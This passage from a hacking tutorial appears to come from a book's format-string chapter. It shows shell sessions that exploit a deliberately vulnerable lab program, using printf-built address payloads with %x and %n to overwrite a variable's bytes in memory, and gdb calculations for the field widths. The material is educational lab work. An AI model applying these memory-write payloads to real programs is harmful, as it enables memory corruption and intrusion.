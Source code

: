[*] next_val @ 0x080497b8 = 286331153 0x11111111
reader@hacking:~/booksrc $
</pre>

As the preceding output shows, the code change has also moved the address of the __test_val__ variable. However, __next_val__ is shown to be adjacent to it. For practice, let’s write an address into the variable __test_val__ again, using the new address.

Last time, a very convenient address of _0xddccbbaa_ was used. Since each byte is greater than the previous byte, it’s easy to increment the byte counter for each byte. But what if an address like _0x0806abcd_ is used? With this address, the first byte of _0xCD_ is easy to write using the __%n__ format parameter by outputting _205_ bytes total bytes with a field width of _161_. But then the next byte to be written is _0xAB_, which would need to have _171_ bytes outputted. It’s easy to increment the byte counter for the __%n__ format parameter, but it’s impossible to subtract from it.

<pre style="color: white;">
reader@hacking:~/booksrc $ ./fmt_vuln2 AAAA%x%x%x%x
The right way to print user-controlled input:
AAAA%x%x%x%x
The wrong way to print user-controlled input:
AAAAbffff3d0b7fe75fc041414141
[*] test_val @ 0x080497f4 = -72 0xffffffb8
[*] next_val @ 0x080497f8 = 286331153 0x11111111
reader@hacking:~/booksrc $ gdb -q --batch -ex "p 0xcd - 5"
$1 = 200
reader@hacking:~/booksrc $ ./fmt_vuln $(printf "\xf4\x97\x04\x08JUNK\xf5\x97\x04\x08JUNK\xf6\
x97\x04\x08JUNK\xf7\x97\x04\x08")%x%x%8x%n
The right way to print user-controlled input:
??JUNK??JUNK??JUNK??%x%x%8x%n
The wrong way to print user-controlled input:
??JUNK??JUNK??JUNK??bffff3c0b7fe75fc 0
[*] test_val @ 0x08049794 = -72 0xffffffb8
reader@hacking:~/booksrc $
reader@hacking:~/booksrc $ ./fmt_vuln2 $(printf "\xf4\x97\x04\x08JUNK\xf5\x97\x04\x08JUNK\xf6\
x97\x04\x08JUNK\xf7\x97\x04\x08")%x%x%8x%n
The right way to print user-controlled input:
??JUNK??JUNK??JUNK??%x%x%8x%n
The wrong way to print user-controlled input:
??JUNK??JUNK??JUNK??bffff3c0b7fe75fc 0
[*] test_val @ 0x080497f4 = 52 0x00000034
[*] next_val @ 0x080497f8 = 286331153 0x11111111
reader@hacking:~/booksrc $ gdb -q --batch -ex "p 0xcd - 52 + 8"
$1 = 161
reader@hacking:~/booksrc $ ./fmt_vuln2 $(printf "\xf4\x97\x04\x08JUNK\xf5\x97\x04\x08JUNK\xf6\
x97\x04\x08JUNK\xf7\x97\x04\x08")%x%x%161x%n
The right way to print user-controlled input:
??JUNK??JUNK??JUNK??%x%x%161x%n
The wrong way to print user-controlled input:
??JUNK??JUNK??JUNK??bffff3b0b7fe75fc
0
[*] test_val @ 0x080497f4 = 205 0x000000cd
[*] next_val @ 0x080497f8 = 286331153 0x11111111
reader@hacking:~/booksrc $ gdb -q --batch -ex "p 0xab - 0xcd"
$1 = -34
reader@hacking:~/booksrc $
</pre>
